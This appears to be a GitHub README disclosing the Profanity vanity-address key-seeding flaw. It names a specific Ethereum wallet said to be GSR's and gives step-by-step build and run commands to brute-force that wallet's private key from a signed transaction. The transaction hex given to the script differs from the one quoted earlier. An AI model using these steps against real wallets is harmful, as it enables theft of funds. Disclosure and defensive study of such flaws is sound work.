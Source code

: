 
## Disclosure

Hi all, I'm Nate, a security researcher and a master's student in Cyber Security, Threat and Forensics.

I have created this private repository with the required code dependencies specifically for demonstration to provide a proof of concept for the vulnerability I am disclosing.


## Brief Introduction

Profanity is specialized software for generating Ethereum vanity addresses. It harnesses GPU capabilities using OpenCL to efficiently perform this task. The process begins by generating a random private key, then computes the corresponding public key, and ultimately derives the Ethereum address from it. This method benefits from the parallel processing capabilities of GPUs, enhancing the speed and efficiency of creating customized Ethereum addresses.

However, the issue with Profanity is that it uses a random 32-bit vector to seed 256-bit private keys, making it possible to brute-force private keys for wallets generated using this tool.

Read more about the exploit in [this blog post](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab#:~:text=Profanity%20is%20an%20Ethereum%20vanity,then%20derives%20the%20Ethereum%20address.).

# Profanity Brute-force
This tool is designed to exploit a vulnerability in the method used for generating certain vanity Ethereum addresses. It aims to reconstruct the private keys of wallets created through interfaces that utilised the Profanity tool. This vulnerability arises from specific flaws in Profanity's address generation process.

## How I Discovered This Wallet Is Affected

I reported an approval exploit in one of GSR's wallets nearly two months ago, where one of the wallets had inadvertently granted a vulnerable contract unlimited allowance to spend its holdings. I reviewed all the addresses they had [labeled on Spotonchain](https://platform.spotonchain.ai/en/entity/807) and noticed the padding style of [this particular address](https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30).

I noticed the repetition of numbers and characters in the address, which led me to suspect it might have been generated using a vanity address creation interface. Prompted by this, I began examining various psotmortems of previously exploited vanity addresses. My goal was to replicate the methods used in those instances to achieve a similar outcome with this address.

I started the brute-force process on the address "0x8811BfB8BB23a64f7dFa0a545654Ab942dc4AD30" to uncover its corresponding private key, following these steps:

## Requirements
- A machine equipped with a high-performance GPU.
- A machine with a minimum of 32GB of RAM.
- A machine that will not disrupt ongoing workflows.
- A machine that is not critical for your work, as the intensive GPU usage may lead to system crashes.

### 1. Build the project
    
    $ git clone https://github.com/0xmstore/GSR
    $ cd GSR
    $ make


### 2. Compute public keys
Run the following command to precompute all seed public keys into `cache` directory.

    $ mkdir cache
    $ ./profanity.x64 -h 

### 3. Find any signed transaction

You need to have a signed transaction in order to reconstruct a public key. You can find it using [Etherscan](https://etherscan.io/).

Let's use the most recent transaction with the hash `0xaf054276bde22dbd41d05214053f24993866d2d2aab5677dcaef490788a01627` and click on `Get Raw Tx Hex` to obtain the raw transaction.

<img width="971" alt="screengrab" src="https://github.com/0xmstore/GSR/assets/99334291/65424c25-e42d-4fd4-b20b-2f75a79e3363">
 

Raw Tx Hex: `0x02f8b10109843b9aca008501ee8cd8b58301189c946e2a43be0b1d33b726f0ca3b8de60b3482b8b05080b844a9059cbb000000000000000000000000a722549ae344d5bf4333aa092c389928f286ce2b000000000000000000000000000000000000000000001fc3842bd1f071c00000c080a08ec7259af0cef057e4fdc04fa15a81ac00a39f5d0c890ed9e2db5ecf77e08fdea03f95de3f8c93bd0112852f9fa50a101853e9c1c7dbecde08d746ebcf2fba74d2`

### 4. Reconsutruct the public key

To obtain the public key from the raw transaction, deploy the `pubkey.py` script.

    $ pip install -r requirements.txt
    $ python pubkey.py -t 0x02f87201048459682f0085013d2a27d082520894000000000d1c18a47a23c5826b2567c864a7d414880328ddd5c0dafd7880c001a0c7065b5d54ebcfb3a4325bbd80e0a352500784e2b12cfee614f8ab179ef9cd479fd78e0651f4f408db5420c785204b704ac14de95b18efb913036d9845906da2

### 5. Run search

Once you have successfully recover the publickey, the next step is to run the search using the command line below

    $ ./profanity.x64 --reverse --steps 200000 --cache --target publickey

### 6. Results

This search took approximately 21 days of intermittent running of the script to be able to generate the private key  due to my MacBook M2 Pro's GPU power limitations. Successfully generating a private key signals a vulnerability. **However, if it fails to do so, it does not necessarily indicate that the wallet is safe!** You can try running step 5 with additional steps.


## Mitigation

To mitigate this issue, it's recommended to remove this wallet from your list of proprietary operational wallets. Given that anyone with sufficient resources and expertise could potentially brute-force the private key, there's a risk of unauthorised access to the funds held in this wallet.

Please let me know if any part needs further explanation or clarification.


# Disclaimer

The vulnerability details disclosed in this document are intended solely for the understanding and resolution. The information is confidential and should be treated as such, not to be disclosed or discussed outside authorised channels. It is provided in good faith to support security awarness and should not be used for any unauthorised or unlawful activities. The author assumes no liability for any actions taken by individuals or entities based on this information, and any misuse of this disclosure may be subject to legal action. All information herein have been reported responsibly and ethically to the appropriate parties.


Sincerely,
Nate
